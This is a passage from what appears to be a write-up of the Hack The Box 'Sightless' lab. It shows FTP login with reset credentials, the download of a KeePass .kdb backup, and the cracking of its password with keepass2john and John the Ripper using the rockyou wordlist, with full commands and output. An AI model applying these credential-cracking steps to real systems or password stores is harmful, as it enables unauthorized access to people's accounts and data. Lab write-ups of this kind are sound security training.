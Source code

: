 ![ftpreset.png](/assets/img/sightless/ftpreset.png)
I'll just copy paste the password suggestion, hit save, and try to connect to the ftp server :
```terminal
┌──(samsam㉿pika-pika)-[~/htb/sightless]
└─$ lftp -u web1,rkunebpZvH ftp://sightless.htb -e "set ssl:verify-certificate no"                                   
lftp web1@sightless.htb:~> ls
drwxr-xr-x   3 web1     web1         4096 May 17 03:17 goaccess
-rw-r--r--   1 web1     web1         8376 Mar 29 10:29 index.html
lftp web1@sightless.htb:/> ls goaccess/
drwxr-xr-x   2 web1     web1         4096 Aug  2 07:14 backup
lftp web1@sightless.htb:/> ls goaccess/backup
-rw-r--r--   1 web1     web1         5292 Aug  6 14:29 Database.kdb
lftp web1@sightless.htb:/> get goaccess/backup/Database.kdb 
5292 bytes transferred
```
It works ! we can download the Database.kdb backup file. 
I can try to open it using a keepass file viewer, like keepassxc, but it requires a password. I'll try to brute force it using johntheripper :
```terminal
┌──(samsam㉿pika-pika)-[~/htb/sightless]
└─$ keepass2john Database.kdb > keepass_hash
Inlining Database.kdb

┌──(samsam㉿pika-pika)-[~/htb/sightless]
└─$ john keepass_hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 600000 for all loaded hashes
Cost 2 (version) is 1 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
bulldogs         (Database.kdb)     
1g 0:00:00:21 DONE (2024-09-08 13:49) 0.04737g/s 51.53p/s 51.53c/s 51.53C/s kucing..morena
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
The password is bulldogs. This is getting quite long for an easy box, but hey we are almost done !
I'll import it in `keepassxc`, making sure to use import file, because this is a .kdb file meaning it's using KeePass 1.X :